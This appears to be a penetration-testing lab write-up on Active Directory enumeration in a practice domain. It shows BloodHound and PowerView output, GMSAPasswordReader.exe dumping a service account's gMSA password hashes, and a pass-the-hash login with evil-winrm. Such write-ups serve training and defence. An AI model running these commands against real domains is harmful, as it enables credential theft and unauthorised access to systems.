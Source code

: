 # Enumerating Objects

## Example

In this page we'll cover some enumeration TTP's that we can use to further understand the active directory objects in the domain we're working with.

## Reviewing Bloodhound

Once we load data into bloodhound we can get a map of the users on the domain we want to target, this often gives us valuable information on intersting objects we want to enumerate further

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This shows that the **svc\_apache** service account can read the GMSA password, which means that the **svc\_apache** account is a Group Managed Service Account (gMSA).

<mark style="color:red;">**NOTE:**</mark> Group managed service accounts (gMSAs) are managed domain accounts that you use to help secure services. Password management for that account is handled by the Windows operating system.

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}

### Confirm GMSA is enabled

We can confirm that the user svc\_apache service account has GMSA enabled.

```powershell
PS C:\Users\enox> Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}


DistinguishedName : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
Enabled           : True
Name              : svc_apache
ObjectClass       : msDS-GroupManagedServiceAccount
ObjectGUID        : d40bc264-0c4e-4b86-b3b9-b775995ba303
SamAccountName    : svc_apache$
SID               : S-1-5-21-537427935-490066102-1511301751-1105
UserPrincipalName :

```

The following command provides info about which groups have permissions to retrieve the password for the svc\_apache service account:

```powershell
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames


CN                                         : svc_apache
DNSHostName                                : DC01.heist.offsec
DistinguishedName                          : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
MemberOf                                   : {CN=Remote Management Users,CN=Builtin,DC=heist,DC=offsec}
Created                                    : 7/20/2021 4:23:44 AM
LastLogonDate                              : 9/14/2021 8:27:06 AM
PasswordLastSet                            : 7/20/2021 4:23:44 AM
msDS-ManagedPasswordInterval               : 30
PrincipalsAllowedToDelegateToAccount       : {}
PrincipalsAllowedToRetrieveManagedPassword : {CN=DC01,OU=Domain Controllers,DC=heist,DC=offsec, CN=Web Admins,CN=Users,DC=heist,DC=offsec}
ServicePrincipalNames                      :




```

We see under <mark style="color:yellow;">**PrincipalsAllowedToRetrieveManagedPassword**</mark> we see the group "Web Admins" let's enumerate this group further.

### Review Domain Group "Web Admins" PowerView

Let's find the domain members in "Web Admins" with PowerView

```powershell
PS> Get-DomainGroupMember "Web Admins"



GroupDomain             : heist.offsec
GroupName               : Web Admins
GroupDistinguishedName  : CN=Web Admins,CN=Users,DC=heist,DC=offsec
MemberDomain            : heist.offsec
MemberName              : enox
MemberDistinguishedName : CN=Naqi,CN=Users,DC=heist,DC=offsec
MemberObjectClass       : user
MemberSID               : S-1-5-21-537427935-490066102-1511301751-1103



```

We can see that our current user: "enox" can extract passwords! This means once  we extract we can login to apache\_svc.



### **Extracting the gMSA Password Using GMSAPasswordReader.exe**&#x20;

We can use [GMSAPasswordReader.exe](https://github.com/expl0itabl3/Toolies) to retrieve the gMSA password with our current user.

```powershell
.\GMSAPasswordReader.exe --accountname 'svc_apache'

Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 526C435B8E4CF11F447D6EF7152665BB
[*]       aes128_cts_hmac_sha1 : 19565C12FDE19AD1033BA3BBD56DD230
[*]       aes256_cts_hmac_sha1 : 43F6DECE6269A588687ACFF41F633A0F7AA9C3FBC7FEAB8BE6981854C19FE817
[*]       des_cbc_md5          : 4AEA91DCEF918F29

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 83AC7FECFBF44780E3AAF5D04DD368A5
[*]       aes128_cts_hmac_sha1 : 08E643C43F775FAC782EDBB04DD40541
[*]       aes256_cts_hmac_sha1 : 588C2BB865E771ECAADCB48ECCF4BCBCD421BF329B0133A213C83086F1A2E3D7
[*]       des_cbc_md5          : 9E340723700454E9

```

<mark style="color:red;">NOTE:</mark> rc4\_hmac is the same as the nt hash.



### Login to svc\_apache with credentials

DONT FORGET THE $ IN THE USERNAME! ANYTIME YOU SEE THIS YOU MUST ADD IT!

```shell-session
evil-winrm -i 192.168.191.165 -u svc_apache$ -H 83AC7FECFBF44780E3AAF5D04DD368A5 
```
